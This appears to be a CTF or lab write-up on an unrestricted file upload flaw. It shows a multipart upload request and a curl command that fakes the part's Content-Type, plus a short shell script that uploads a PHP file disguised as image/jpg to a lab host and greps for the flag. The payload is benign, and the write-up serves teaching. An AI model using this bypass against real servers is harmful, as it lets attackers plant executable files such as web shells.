 # Unrestricred File Upload

When browser create request on submit event of the form of the upload page, it uses `Content-type: multipart/form-data`.

The request looks like this:
```
POST http://192.168.64.4/index.php?page=upload HTTP/1.1
...
Content-Type: multipart/form-data; boundary =------------------------2af838c4b69e7ad8
...

--------------------------2af838c4b69e7ad8
Content-Disposition: form-data;
name="uploaded";
filename="pic.jpg"
Content-Type: image/jpg

hello

--------------------------2af838c4b69e7ad8
Content-Disposition: form-data;
name="Upload"

Upload
--------------------------2af838c4b69e7ad8--
```

To exploit this vulnerability we need to upload non-image file and make the server think that the file is an image. <br>
To do that, we need to change `Content-type` inside each part of multipart POST request.

This could be easily performed with `curl`. 
```bash
curl -F "uploaded=@path-to-file;type=any-mime-type-you-want-to-fake"
```

<details>
    <summary>Shell script that does the trick</summary>

```bash
#!/bin/bash

echo 'echo hello' > /$HOME/index.php

curl -s -F "uploaded=@$HOME/index.php;type=image/jpg" -F "Upload=Upload" "http://$IPADDR/index.php?page=upload" | grep flag
```

</details>

## References
- [Unrestricted File Upload — OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)